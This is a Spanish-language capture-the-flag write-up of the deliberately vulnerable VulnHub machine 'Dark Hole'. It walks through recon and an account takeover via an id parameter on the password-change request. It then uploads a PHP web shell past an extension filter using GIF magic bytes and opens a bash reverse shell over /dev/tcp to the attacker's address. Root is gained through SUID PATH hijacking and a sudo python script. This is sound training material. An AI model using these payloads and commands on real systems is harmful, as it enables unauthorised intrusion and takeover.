






# Dark Hole - VulnHub

## Reconocimiento

Vamos a comenzar con un escaneo de red para identificar la dirección IP de la máquina objetivo. 

```bash
sudo arp-scan -I ens33 --localnet --ignoredups

192.168.0.44	00:0c:29:dd:bb:ef	VMware, Inc.
```

Veamos los puertos que tiene abiertos con nmap:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 192.168.0.44 -Pn -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Veamos las versiones de los servicios que están corriendo en los puertos abiertos:

```bash
nmap -sCV -p22,80 192.168.0.44

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e4:50:d9:50:5d:91:30:50:e9:b5:7d:ca:b0:51:db:74 (RSA)
|   256 73:0c:76:86:60:63:06:00:21:c2:36:20:3b:99:c1:f7 (ECDSA)
|_  256 54:53:4c:3f:4f:3a:26:f6:02:aa:9a:24:ea:1b:92:8c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: DarkHole
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que el puerto 80 tiene un servidor web corriendo, así que vamos a abrirlo: http://192.168.0.44/


Vemos una página con un login: http://192.168.0.44/login.php



Veamos que tecnologías se utilizan con whatweb:

```bash
whatweb 'http://192.168.0.44'

http://192.168.0.44 [200 OK] Apache[2.4.41], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.0.44], Title[DarkHole]
```

Vemos que utiliza Apache 2.4.41 y PHP, así que vamos a ver si hay algún directorio interesante con gobuster:

```bash
gobuster dir -u http://192.168.0.44 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 200 --exclude-length 3727 -x txt,js,php,xml,bak --add-slash

/login.php/           (Status: 200) [Size: 2507]
/register.php/        (Status: 200) [Size: 2886]
/icons/               (Status: 403) [Size: 277]
/upload/              (Status: 200) [Size: 931]
/css/                 (Status: 200) [Size: 1731]
/js/                  (Status: 200) [Size: 1133]
/logout.php/          (Status: 302) [Size: 0] [--> login.php]
/config/              (Status: 200) [Size: 946]
/dashboard.php/       (Status: 200) [Size: 21]
/index.php/           (Status: 200) [Size: 810]
```

Vemos varios directorios interesantes.

Vamos a ver que hay en /config:



Vemos un archivo database.php, vamos a descargarlo y ver que contiene:

```bash
wget http://192.168.0.44/config/database.php
```

Vemos que está vacío.

En /upload vemos la foto de un padre y una niña.

Vamos a descargarla para ver si tiene algo de esteganografía:

```bash
binwalk -e d.jpg
steghide extract -sf d.jpg
stegseek d.jpg /usr/share/wordlists/rockyou.txt
exiftool d.jpg
```

No tiene nada.

Vamos a http://192.168.0.44/register.php para crear un usuario y ver si podemos subir algo en /upload.

nos metemos con mmr:mmr123 y nos lleva a http://192.168.0.44/dashboard.php?id=2 



## Explotación

Probamos a cambiar el ID a 1 pero nos sale este mensaje:

```
Your Not Allowed To Access another user information
```

No tiene IDOR.
Vemos que tenemos una cookie de sesión `gtne41uiqo22510ir9n5gp0i4h`.

Vamos a interceptar la petición de login con burp suite para ver si podemos hacer algo.

```
POST /login.php HTTP/1.1
Host: 192.168.0.44
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://192.168.0.44
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://192.168.0.44/login.php
Cookie: PHPSESSID=gtne41uiqo22510ir9n5gp0i4h
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=mmr&password=mmr123
```

Vamos a probar con un type juggling.

```bash
username=mmr&password[]=NOPASSWD
```

Pero nos sale: `username or password is incorrect`

Al tratar de usar sqlmap para ver si hay inyecciones SQL nos sale que no hay vulnerabilidades.

```bash
sqlmap -u "http://192.168.0.44/dashboard.php?id=2" --dbs --batch --cookie="PHPSESSID=gtne41uiqo22510ir9n5gp0i4h"
sqlmap -u "http://192.168.0.44/login.php" --dbs --batch --form --cookie="PHPSESSID=gtne41uiqo22510ir9n5gp0i4h"
```


Vamos a interceptar la petición de /upload y cambiarla a POST para ver si podemos subir algo, sin embargo no nos deja subir nada.

Vamos a burpsuite a internatar comprobar si hay un IDOR.
Llevamos la petición al intruder y hacemos un sniper attack con el payload de 1 a 300.



Como va muy lento vamos a usar wfuzz para hacer un fuzzing de la URL con el ID.

```bash
wfuzz -c -b 'PHPSESSID=gtne41uiqo22510ir9n5gp0i4h' --hw=8 -t 200 -z range,1-100000 "http://192.168.0.44/dashboard.php?id=FUZZ"
```

No nos sale nada.

Me acabo de dar cuenta que al pulsar el boton de cambiar la contraseña nos sale esta petición en burp suite:

```
password=mmr123&id=2
```

Vamos a tratar de cambiar el id a 1 y nos sale este mensaje:

```
Password Has been Updated
```

Le hemos cambiado la contraseña al usuario con ID 1, que suponemos es el admin.



Nos logueamos como admin y tuve suerte pues el usuario se llamaba así.



Vemos que ahora nos sale la opción de subir un archivo, vamos a probar a subir un archivo PHP malicioso.

Nos sale este mensaje: Sorry , Allow Ex : jpg,png,gif 

Esto se soluciana facil con un bypass de extensión y los magic numbers, así que vamos a interceptar la petición de subida de archivo.

```
POST /dashboard.php?id=1 HTTP/1.1
Host: 192.168.0.44
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary9c4643397d11fd00b52a7e9c9c5d74a1
Content-Length: 257
Origin: http://192.168.0.44
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://192.168.0.44/dashboard.php?id=1
Cookie: PHPSESSID=gtne41uiqo22510ir9n5gp0i4h
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundary9c4643397d11fd00b52a7e9c9c5d74a1
Content-Disposition: form-data; name="fileToUpload"; filename="cmd.php"
Content-Type: application/x-php

<?php
system($_GET['cmd']);
?>

------geckoformboundary9c4643397d11fd00b52a7e9c9c5d74a1--
```

Lo cambiamos a esto:

```
Content-Disposition: form-data; name="fileToUpload"; filename="cmd.gif"
Content-Type: application/x-php

GIF8;

<?php
system($_GET['cmd']);
?>
```

Nos sale esto: **Upload File Successful**.

Pero a la hora de acceder desde el navegador da problemas, por lo que probamos esto:

```
------geckoformboundaryd96306d13901e2076b2d063429f84684
Content-Disposition: form-data; name="fileToUpload"; filename="cmd.png.php5"
Content-Type: image/gif

GIF8;

<?php
system($_GET['cmd']);
?>

------geckoformboundaryd96306d13901e2076b2d063429f84684--
```

He cambiado en content type y la extensión del archivo, y ahora nos sale esto: **Upload File Successful**.

Sin embargo nos sale un error de que no puede cargar la imagen.

```
------geckoformboundaryd96306d13901e2076b2d063429f84684
Content-Disposition: form-data; name="fileToUpload"; filename="cmd.php5"
Content-Type: application/x-php

GIF8;

<?php
system($_GET['cmd']);
?>

------geckoformboundaryd96306d13901e2076b2d063429f84684--
```

Ahora con esto nos deja acceder en el navegador, sin embargo, no nos interpreta el código PHP y nos lo muestra como texto.

Probamos cambiando la extensión a .phtml y al ir a http://192.168.0.44/upload/cmd.phtml?cmd=whoami nos sale el usuario www-data.

```
GIF8; www-data 
```

Ahora sí, nos entablamos una reverse shell con netcat:

http://192.168.0.44/upload/cmd.phtml?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.0.19/443 0>%261"

```bash
sudo nc -lvnp 443

www-data@darkhole:/var/www/html/upload$
```

## Escalada de privilegios

Vamos a realizar un tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
stty rows 44 cols 182
```

Dentro de /var/www/html/config vemos un archivo llamado database.php, vamos a ver que contiene:

```bash
cat database.php 
<?php
$connect = new mysqli("localhost",'john','john','darkhole');

```

Vamos a ver si podemos conectarnos a la base de datos con el usuario john y la contraseña john:

```bash
mysql -u john -p -h localhost darkhole

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| darkhole           |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+

mysql> show tables;
+--------------------+
| Tables_in_darkhole |
+--------------------+
| users              |
+--------------------+

mysql> select * from users;
+----+----------+-----------------+----------+
| id | username | email           | password |
+----+----------+-----------------+----------+
|  1 | admin    | admin@admin.com | mmr123   |
|  2 | mmr      | mmr@mmr.com     |          |
+----+----------+-----------------+----------+
```

No hay nada interesante.

En /home/john vemos lo siguiente:

```bash
ls -la
total 72
drwxrwxrwx 5 john john      4096 Jul 17  2021 .
drwxr-xr-x 4 root root      4096 Jul 16  2021 ..
-rw------- 1 john john      1722 Jul 17  2021 .bash_history
-rw-r--r-- 1 john john       220 Jul 16  2021 .bash_logout
-rw-r--r-- 1 john john      3771 Jul 16  2021 .bashrc
drwx------ 2 john john      4096 Jul 17  2021 .cache
drwxrwxr-x 3 john john      4096 Jul 17  2021 .local
-rw------- 1 john john        37 Jul 17  2021 .mysql_history
-rw-r--r-- 1 john john       807 Jul 16  2021 .profile
drwxrwx--- 2 john www-data  4096 Jul 17  2021 .ssh
-rwxrwx--- 1 john john         1 Jul 17  2021 file.py
-rwxrwx--- 1 john john         8 Jul 17  2021 password
-rwsr-xr-x 1 root root     16784 Jul 17  2021 toto
-rw-rw---- 1 john john        24 Jul 17  2021 user.txt
```

www-data@darkhole:/home/john$ cd .ssh/
www-data@darkhole:/home/john/.ssh$ ls
id_rsa	id_rsa.pub  known_hosts

Vemos la clave privada id_rsa pero no tenemos permisos para leerla

Vamos a probar un par de cosas:

´´´bash
www-data@darkhole:/home/john/.ssh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@darkhole:/home/john/.ssh$ sudo -l
[sudo] password for www-data:

www-data@darkhole:/home/john/.ssh$ find / -perm -4000 2>/dev/null
/home/john/toto
```

Vemos que el binario /home/john/toto tiene el bit SUID activado, así que vamos a ver que es lo que hace:

```bash
www-data@darkhole:/home/john$ ./toto 
uid=1001(john) gid=33(www-data) groups=33(www-data)
```

Creo que es un binario que ejecuta el comando id con los permisos de john, así que podemos hacer un PATH hijacking para que en vez de el id del sistema ejecute el nuestro.

```bash
export PATH=/tmp:$PATH
# Creo el fichero id con /bin/bash -p en /tmp
./toto
john@darkhole:/home/john$ whoami
john
```

Vemos la flag de usuario en /home/john/user.txt

```bash
cat password 
root123
```

Nos intentamos meter como root con la contraseña root123 pero no nos deja.

```bash
sudo -l
[sudo] password for john: 
Matching Defaults entries for john on darkhole:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on darkhole:
    (root) /usr/bin/python3 /home/john/file.py
```

La password para sudo -l era root123 y nos muestra esto, que podemos ejecutar el script /home/john/file.py como root.

```python
#!/usr/bin/python3

import os
os.system("chmod +s /bin/bash")
```

```bash
sudo /usr/bin/python3 /home/john/file.py
john@darkhole:/home/john$ /bin/bash -p
bash-5.0# whoami
root
```

Nos metemos en /root y vemos la flag de root en root.txt